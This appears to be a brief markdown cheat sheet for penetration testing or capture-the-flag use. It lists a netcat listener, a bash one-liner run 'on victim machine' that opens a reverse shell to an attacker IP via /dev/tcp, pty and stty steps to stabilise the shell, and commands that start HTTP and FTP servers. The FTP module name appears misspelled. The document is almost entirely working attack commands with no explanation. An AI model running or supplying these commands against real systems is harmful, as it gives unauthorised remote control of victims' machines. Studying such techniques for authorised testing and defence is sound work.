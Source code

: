 # Reverse Shell Cheatsheet

## Spawning a shell
### Creating stable shell
On your local machine
```console
~$ sudo nc -lvnp 9001
```
On victim machine
```console
~$ bash -c "bash -i >& /dev/tcp/{your_IP}/9001 0>&1"
```

### Making shell interactive
```console
~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
~$ stty raw -echo; fg
~$ export TERM=xterm
```

## Making Servers
### HTTP
```console
~$ sudo python3 -m http.server {PORT-NUMBER}
```
### FTP
```console
~$ sudo python3 -m pyftpdblib -p 21 -w
```




